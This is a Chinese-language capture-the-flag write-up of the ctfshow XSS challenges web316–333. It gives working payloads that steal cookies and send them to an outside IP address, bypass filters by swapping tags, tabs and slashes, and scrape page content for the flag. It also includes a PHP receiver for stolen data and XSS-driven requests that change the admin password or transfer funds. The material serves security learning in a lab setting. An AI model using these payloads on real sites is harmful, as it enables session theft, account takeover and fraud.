# XSS

## 总结

这篇已经无敌了，就不班门弄斧了

[XSS总结](https://xz.aliyun.com/t/4067)

## ctfshow-xss

因为想学习一下**js**，就不用平台了，自己简略的搭建一个（或者根本不叫搭建

### web316

无任何过滤



接收端



利用`window.location.href`

```js
<script>window.location.href='http://1.15.107.150:3296?c='+document.cookie</script>
# window.open也可以	location.href不加window也可以
```

本题的设置是有一个bot每隔几秒会访问加了你的xss之后的网站
所以你第一次会弹到自己
然后这个简易的服务端只能接受一次，所以重开一次就好了

### web317

这样有点麻烦，还是用php搭个服务端

```php
<?php 
$flag=$_GET['c'];
$file=fopen('flag.txt','w+');
fwrite($file,$flag);
fclose($file);
?>
```

先用上题**payload**试一下，发现**script**被过滤了

换成**img**或者**body**都可以

```js
<body onload="window.location.href='http://1.15.107.150:7778?c='+document.cookie">

```

一直弹自己，莫名其妙的

换成nc又成功了



### web318

多过滤了**img**，**body**仍然可用



### web319

body继续可用

php端成功了（要慢一点访问



### web320

过滤了空格

tab符或者 / 都可以

```js
<body%09onload="window.location.href='http://1.15.107.150:7778?c='+document.cookie">
<body/onload="window.location.href='http://1.15.107.150:7778?c='+document.cookie">
```

### web321

上题的payload仍然可用

愚了，用python起的临时服务端就可以重复接受了(**nc**相当于两边牵手？学socket的时候在研究，留个坑先



### web322

%09用不了了，/ 还可以用



### web323

同上

### web324

同上

### web325

同上

### web326

同上

### web327

发件人和收件人都要填**admin**，否则会网络拥堵



内容还是上面的**payload**

### web328



有一个注册页面，既然管理员可以直接看到我的账号密码，那就用xss payload注册一个账号



X到了管理员的**cookie**，登陆一下...然后把自己 X 麻了，点开管理页面就直接跳转了（露出了几帧，录了个视频看到了



### web329

和上题差不多，X得到**cookie**，但是得到的cookie不能以**admin**身份登陆（应该是对**cookie**做了些限制

那就直接用**JavaScript**读**flag**



可以看到元素名

```js
<script>window.open('http://1.15.107.150:3296/'+document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')[1].innerHTML)</script>
```



还有**innerHTML**和**outerHTML**的区别
**innerHTML**: 从对象的起始位置到终止位置的全部内容,不包括Html标签。
**outerHTML**: 除了包含innerHTML的全部内容外, 还包含对象标签本身。

### web330

利用上题的**payload**拿到的是 `******`



用的这个**payload**

```js
<script>window.open('http://1.15.107.150:3296/'+document.querySelector('#top > div.layui-container').textContent)</script>
```

or

```js
<script>window.open('http://1.15.107.150:3296/'+document.getElementsByClassName('layui-container')[0].outerHTML)</script>
```

上题的payload只是因为`******`的位置靠前了而没有flag，直接再找父级就好了



但是这题的预期应该不是这个，因为多了一个修改密码的功能，所以应该是修改密码



可以看到这里的**Referer**是`http://127.0.0.1/manager.php`

所以很明显改密码用我环境的网站肯定是不行的，用localhost才行

```js
<script>window.open('http://127.0.0.1/api/change.php?p=123456')</script>
```

登陆后发现是这样的



(那把html元素都打印出来就行了嘛)

至于为什么是`/api/change.php` 和 GET 请求



抓包可知

### web331

上题的非预期当然可以用

修改密码的方式有**GET**改为了**POST**

```js
<script>$.ajax({url:'http://127.0.0.1/api/change.php',type:'post',data:{p:'123'}});</script>

<script>var httpRequest = new XMLHttpRequest();httpRequest.open('POST', 'http://127.0.0.1/api/change.php', true);httpRequest.setRequestHeader("Content-type","application/x-www-form-urlencoded");httpRequest.send('p=123');</script>
```

示例

```js
var httpRequest = new XMLHttpRequest();//第一步：创建需要的对象
httpRequest.open('POST', 'url', true); //第二步：打开连接
httpRequest.setRequestHeader("Content-type","application/x-www-form-urlencoded");//设置请求头 注：post方式必须设置请求头（在建立连接后设置请求头）
httpRequest.send('name=teswe&ee=ef');//发送请求 将情头体写在send中
/**
 * 获取数据后的处理程序
 */
httpRequest.onreadystatechange = function () {//请求后的回调接口，可将请求成功后要执行的程序写在其中
    if (httpRequest.readyState == 4 && httpRequest.status == 200) {//验证请求是否发送成功
        var json = httpRequest.responseText;//获取到服务端返回的数据
        console.log(json);
    }
};
```

### web 332-333

通过转负钱或者xss让admin给自己转钱

```js
<script>$.ajax({url:'http://127.0.0.1/api/amount.php',type:'post',data:{u:'xxx',a:'10000'}});</script>
```

## 题

有两个蛮有意思的xss题都没环境复现了，MRCTF2022 和 qwb2022的，有机会复现下

### [CISCN2019 华东北赛区]Web2

详见**ciscn**笔记
